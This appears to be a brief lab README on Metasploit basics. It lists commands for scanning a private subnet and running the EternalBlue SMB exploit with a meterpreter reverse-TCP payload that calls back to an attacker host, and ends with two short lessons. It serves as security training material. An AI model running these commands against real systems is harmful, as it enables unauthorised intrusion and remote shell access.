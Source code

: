 # Metasploit Basics Lab

This lab demonstrates using **Metasploit** for reconnaissance and exploitation.

## Commands Used
```bash
msfconsole
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
run

use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.1.5
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
exploit
```

## Sample Output
![Metasploit Intro](images/metasploit-intro.png)
![Exploit Demo](images/exploit-demo.png)

## Lessons Learned
- Reconnaissance identifies open services.
- Exploits must match the target's OS and service versions.
